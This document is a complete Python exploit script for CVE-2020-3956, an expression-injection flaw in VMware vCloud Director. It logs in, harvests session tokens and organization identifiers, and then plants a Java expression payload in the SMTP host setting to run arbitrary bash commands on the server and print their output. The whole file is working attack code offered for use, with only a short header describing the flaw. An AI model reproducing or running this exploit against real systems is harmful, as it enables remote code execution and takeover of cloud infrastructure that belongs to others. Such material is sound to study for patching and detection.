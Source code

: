 EXP
---

    #!/usr/bin/python
    # Exploit Title: vCloud Director - Remote Code Execution
    # Exploit Author: Tomas Melicher
    # Technical Details: https://citadelo.com/en/blog/full-infrastructure-takeover-of-vmware-cloud-director-CVE-2020-3956/
    # Date: 2020-05-24
    # Vendor Homepage: https://www.vmware.com/
    # Software Link: https://www.vmware.com/products/cloud-director.html
    # Tested On: vCloud Director 9.7.0.15498291
    # Vulnerability Description:
    #   VMware vCloud Director suffers from an Expression Injection Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) via submitting malicious value as a SMTP host name.

    import argparse # pip install argparse
    import base64, os, re, requests, sys
    if sys.version_info >= (3, 0):
        from urllib.parse import urlparse
    else:
        from urlparse import urlparse

    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    PAYLOAD_TEMPLATE = "${''.getClass().forName('java.io.BufferedReader').getDeclaredConstructors()[1].newInstance(''.getClass().forName('java.io.InputStreamReader').getDeclaredConstructors()[3].newInstance(''.getClass().forName('java.lang.ProcessBuilder').getDeclaredConstructors()[0].newInstance(['bash','-c','echo COMMAND|base64 -di|bash|base64 -w 0']).start().getInputStream())).readLine()}"
    session = requests.Session()

    def login(url, username, password, verbose):
        target_url = '%s://%s%s'%(url.scheme, url.netloc, url.path)
        res = session.get(target_url)
        match = re.search(r'tenant:([^"]+)', res.content, re.IGNORECASE)
        if match:
            tenant = match.group(1)
        else:
            print('[!] can\'t find tenant identifier')
            return (None,None,None,None)

        if verbose:
            print('[*] tenant: %s'%(tenant))

        match = re.search(r'security_check\?[^"]+', res.content, re.IGNORECASE)
        if match:                                                                           # Cloud Director 9.*
            login_url = '%s://%s/login/%s'%(url.scheme, url.netloc, match.group(0))
            res = session.post(login_url, data={'username':username,'password':password})
            if res.status_code == 401:
                print('[!] invalid credentials')
                return (None,None,None,None)
        else:                                                                               # Cloud Director 10.*
            match = re.search(r'/cloudapi/.*/sessions', res.content, re.IGNORECASE)
            if match:
                login_url = '%s://%s%s'%(url.scheme, url.netloc, match.group(0))
                headers = {
                    'Authorization': 'Basic %s'%(base64.b64encode('%s@%s:%s'%(username,tenant,password))),
                    'Accept': 'application/json;version=29.0',
                    'Content-type': 'application/json;version=29.0'
                }
                res = session.post(login_url, headers=headers)
                if res.status_code == 401:
                    print('[!] invalid credentials')
                    return (None,None,None,None)
            else:
                print('[!] url for login form was not found')
                return (None,None,None,None)

        cookies = session.cookies.get_dict()
        jwt = cookies['vcloud_jwt']
        session_id = cookies['vcloud_session_id']

        if verbose:
            print('[*] jwt token: %s'%(jwt))
            print('[*] session_id: %s'%(session_id))

        res = session.get(target_url)
        match = re.search(r'organization : \'([^\']+)', res.content, re.IGNORECASE)
        if match is None:
            print('[!] organization not found')
            return (None,None,None,None)
        organization = match.group(1)
        if verbose:
            print('[*] organization name: %s'%(organization))

        match = re.search(r'orgId : \'([^\']+)', res.content)
        if match is None:
            print('[!] orgId not found')
            return (None,None,None,None)
        org_id = match.group(1)
        if verbose:
            print('[*] organization identifier: %s'%(org_id))

        return (jwt,session_id,organization,org_id)


    def exploit(url, username, password, command, verbose):
        (jwt,session_id,organization,org_id) = login(url, username, password, verbose)
        if jwt is None:
            return

        headers = {
            'Accept': 'application/*+xml;version=29.0',
            'Authorization': 'Bearer %s'%jwt,
            'x-vcloud-authorization': session_id
        }
        admin_url = '%s://%s/api/admin/'%(url.scheme, url.netloc)
        res = session.get(admin_url, headers=headers)
        match = re.search(r'<description>\s*([^<\s]+)', res.content, re.IGNORECASE)
        if match:
            version = match.group(1)
            if verbose:
                print('[*] detected version of Cloud Director: %s'%(version))
        else:
            version = None
            print('[!] can\'t find version of Cloud Director, assuming it is more than 10.0')

        email_settings_url = '%s://%s/api/admin/org/%s/settings/email'%(url.scheme, url.netloc, org_id)

        payload = PAYLOAD_TEMPLATE.replace('COMMAND', base64.b64encode('(%s) 2>&1'%command))
        data = '<root:OrgEmailSettings xmlns:root="http://www.vmware.com/vcloud/v1.5"><root:IsDefaultSmtpServer>false</root:IsDefaultSmtpServer>'
        data += '<root:IsDefaultOrgEmail>true</root:IsDefaultOrgEmail><root:FromEmailAddress/><root:DefaultSubjectPrefix/>'
        data += '<root:IsAlertEmailToAllAdmins>true</root:IsAlertEmailToAllAdmins><root:AlertEmailTo/><root:SmtpServerSettings>'
        data += '<root:IsUseAuthentication>false</root:IsUseAuthentication><root:Host>%s</root:Host><root:Port>25</root:Port>'%(payload)
        data += '<root:Username/><root:Password/></root:SmtpServerSettings></root:OrgEmailSettings>'
        res = session.put(email_settings_url, data=data, headers=headers)
        match = re.search(r'value:\s*\[([^\]]+)\]', res.content)

        if verbose:
            print('')
        try:
            print(base64.b64decode(match.group(1)))
        except Exception:
            print(res.content)


    parser = argparse.ArgumentParser(usage='%(prog)s -t target -u username -p password [-c command] [--check]')
    parser.add_argument('-v', action='store_true')
    parser.add_argument('-t', metavar='target', help='url to html5 client (http://example.com/tenant/my_company)', required=True)
    parser.add_argument('-u', metavar='username', required=True)
    parser.add_argument('-p', metavar='password', required=True)
    parser.add_argument('-c', metavar='command', help='command to execute', default='id')
    args = parser.parse_args()

    url = urlparse(args.t)
    exploit(url, args.u, args.p, args.c, args.v)